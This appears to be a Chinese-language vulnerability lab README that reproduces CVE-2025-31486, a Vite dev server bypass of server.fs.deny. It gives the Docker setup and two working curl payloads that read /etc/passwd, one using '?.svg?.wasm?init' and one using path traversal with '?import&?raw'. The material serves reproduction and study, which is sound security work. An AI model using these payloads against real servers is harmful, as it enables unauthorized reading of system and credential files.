

# Vite开发服务器任意文件读取漏洞绕过（CVE-2025-31486）

Vite是一个现代前端构建工具，为Web项目提供更快、更精简的开发体验。它主要由两部分组成：具有热模块替换（HMR）功能的开发服务器，以及使用Rollup打包代码的构建命令。

在Vite 6.2.5, 6.1.4, 6.0.14, 5.4.17 和 4.5.12版本之前，用于限制访问Vite服务允许列表之外的文件的`server.fs.deny`功能可被绕过。通过在URL的`@fs`前缀后增加`?.svg?.wasm?init`或者通过相对路径 `/@fs/{{project_path}}/?/../../../../../../etc/passwd?import&?raw`，攻击者可以读取文件系统上的任意文件。

这个漏洞是[CVE-2025-31125](../CVE-2025-31125/README.zh-cn.md)补丁的绕过。

参考链接：

- <https://github.com/vitejs/vite/security/advisories/GHSA-xcj6-pq6g-qj4x>
- <https://nvd.nist.gov/vuln/detail/CVE-2025-31486>

## 环境搭建

执行以下命令启动Vite 6.2.4开发服务器：

```
docker compose up -d
```

服务器启动后，可以通过访问`http://your-ip:5173`来访问 Vite 开发服务器。

> 注意：旧版本Vite的开发服务器默认端口为3000，新版本默认端口为5173，请注意区分。

## 漏洞复现

通过在URL后附加`?.svg?.wasm?init`，你就可以绕过这个限制并获取文件内容：

```
curl "http://your-ip:5173/@fs/etc/passwd?.svg?.wasm?init"
```

这个请求将会返回`/etc/passwd`文件的内容：



除了上面的Payload，你也可以使用`/@fs/{{project_path}}/?/../../../../../../etc/passwd?import&?raw`来达到相同的效果。

靶场中的 project_path 为：`/usr/src/`，可以通过访问 `/@fs/etc/passwd` 从响应中获取


下一步发送 payload

```
curl "http://your-ip:5173/@fs/usr/src/?/../../../../../../etc/passwd?import&?raw"
```

这个请求将会返回`/etc/passwd`文件的内容：


